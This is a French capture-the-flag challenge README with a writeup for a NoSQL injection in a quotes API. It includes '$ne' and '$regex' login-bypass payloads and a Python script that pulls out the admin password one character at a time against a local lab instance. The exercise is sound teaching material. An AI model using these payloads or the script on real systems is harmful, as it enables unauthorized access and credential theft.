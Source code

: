# Quotes-A-Day 1

> Web <br>
> Author: @StrixSC (Nawras M.-A.)

## Prompt

Nous avons créé une toute nouvelle API pour permettre à nos utilisateurs d'obtenir une citation inspirante sur demande !

Notre équipe de sécurité doit encore approuver la mise en production, mais je pense vraiment que nous avons tout fait correctement.

Consultez notre documentation pour commencer ! `URL DU CHALLENGE/docs`

## Description (In french):

Une API est l'acronyme de Application Programming interface (interface de programmation d'applications), qui est simplement un moyen de faire communiquer deux applications afin de partager leurs données. De nos jours, il est très courant qu'une application aille chercher des données ailleurs, ou qu'elle manipule une application à partir d'une autre application. Cela peut être fait en exposant une API et en permettant aux utilisateurs d'interroger l'API à l'aide de requêtes HTTP. En général, ces interfaces nécessitent une forme d'authentification pour assurer que l'utilisateur n'est pas un robot ou une personne mal intentionnée. Cette forme d'authentification peut être une clé d'API, un mot de passe et un nom d'utilisateur, un code et un jeton d'accès, etc. Ces API sont généralement documentées par des interfaces de documentation accessibles à partir d'un navigateur Web. 

Dans ce défi, vous utiliserez une API qui génère des citations. La documentation peut être trouvée en naviguant vers la route `/docs` de votre navigateur. 

## Flag

FLAG: `FLAG-N0SQL_D0ESNT_M3AN_N0_SQLi`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi est une vulnérabilité assez standard de NoSQL que l'utilisateur doit exploiter. Le flag est le mot de
passe de l'utilisateur admin, qui peut être trouvé en abusant de l'entrée non validée dans les champs email et password
du endpoint /api_key.

Plusieurs payloads peuvent être utilisées, car l'application permet l'utilisation d'objets comme input aux champs email
et password puisque ces derniers ne sont pas validés.

Exemple:

```json
{
  "email": "admin@unite.com"
  "password": {
    "$ne": 1
  }
}
```

Qui nous retourne:

```json
{
  "API_KEY": "6125da25d002882618d55be9",
  "message": "Use API_KEY as the value to the api_key parameter in our other queries"
}
```

Il existe plusieurs [fonctions d'agrégation](https://docs.mongodb.com/manual/aggregation/), tels que "$where", "$regex",
etc. Une des fonctions que nous pouvons utiliser pour trouver le flag est `$regex`. `$regex` nous permet de matcher des
champs du document de la base de donnée avec l'expression donnée en input.

Exemple:

```json
{
  "email": "admin@unite.com",
  "password": {
    "$regex": "FLAG-(.*)"
  }
}
```

Qui nous retourne la même réponse (200) mentionnée plus haut.

Maintenant, nous savons que le flag est du format FLAG-..., nous savons aussi qu'une requête réussie nous retourne un
code de 200 et la clé API, donc nous pouvons écrire une fonction qui nous permet d'exécuter des requêtes pour
extraire les lettres entre les deux accolades :

```python
import requests

flag_letters = 'abcdefghijklmnopqrstuvxwyzABCDEFGHIJKLMNOPQRSTUVXWYZ0123456789_-{}'
index = 0
flag = "FLAG-"
url = "http://localhost:3000/api_key"
headers = {'Content-type': 'application/json'}
while True:
    for letter in flag_letters:
        data = {"email": "admin@unite.com", "password": {"$regex": "{}(.*)".format(flag + letter)}}
        response = requests.post(url, json=data, headers=headers)
        index = index + 1
        if "API_KEY" in response.text:
            flag = flag + letter
            print(flag)
```

Qui nous retourne donc quelque chose comme ça:

```bash
FLAG-N
FLAG-No
FLAG-No5
FLAG-No5Q
...
FLAG-No5QL_D0ESNT_M3AN_N0_SQLi
```